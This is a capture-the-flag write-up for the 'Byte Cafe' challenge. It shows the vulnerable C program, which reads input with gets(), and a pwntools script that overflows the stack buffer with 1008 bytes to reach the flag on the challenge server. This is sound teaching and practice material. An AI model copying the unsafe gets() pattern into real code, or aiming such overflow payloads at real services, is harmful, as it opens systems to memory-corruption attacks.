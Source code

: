 ## Byte Cafe
The main idea to find the flag is by tweaking with the memory size to overflow the stack.

#### Step-1:
After reading the description of the challenge:

```
Here’s a great place to eat. What would you like to have?  
`nc 23.100.18.186 6677`
```

Along with that `byte_cafe.c` & `byte_cafe` files.
The contents of `byte_cafe.c` is:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  int code = 0;
  char name[1000];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to Byte Café!");
  puts("What do you want to Byte today?");

  gets(name);

  if(code != 0) {
    system("cat flag.txt");
  }
}
```

#### Step-2:
I wrote this simple `solve.py` to get the flag.

```py
#!/usr/bin/env python3

from pwn import *

conn = remote('23.100.18.186', 6677)

print(conn.recvline().decode().strip()) #strip the message
print(conn.recvline().decode().strip()) #strips the strip
conn.sendline(str('A'*1008).encode())
print(conn.recv())

conn.close()
```

Executing this as `python3 solve.py`, gives us the flag.

#### Step-3:
Finally, the flag becomes:
`flag{bits_are_delicious}`
